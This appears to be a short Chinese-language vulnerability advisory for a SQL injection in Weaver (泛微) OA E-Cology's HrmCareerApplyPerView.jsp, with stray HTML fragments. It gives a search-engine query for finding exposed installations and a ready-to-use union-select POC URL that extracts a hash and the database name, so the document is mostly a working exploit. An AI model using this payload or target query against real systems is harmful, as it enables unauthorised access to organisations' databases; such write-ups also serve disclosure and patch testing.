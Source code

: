 # 泛微OA E-Cology HrmCareerApplyPerView.jsp SQL注入漏洞

## 漏洞描述

泛微OA E-Cology HrmCareerApplyPerView.jsp 文件存在SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库敏感文件

## 漏洞影响

泛微OA E-Cology </a-checkbox></br>

## 网络测绘

app="泛微-协同办公OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1656734700582-b9fa4bec-ab37-4bbb-b1fb-4ccccda497df.png)

验证POC

```php
/pweb/careerapply/HrmCareerApplyPerView.jsp?id=1 union select 1,2,sys.fn_sqlvarbasetostr(HashBytes('MD5','abc')),db_name(1),5,6,7
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1656734767484-f94594ff-00ff-444f-8668-b9108e63ed02.png)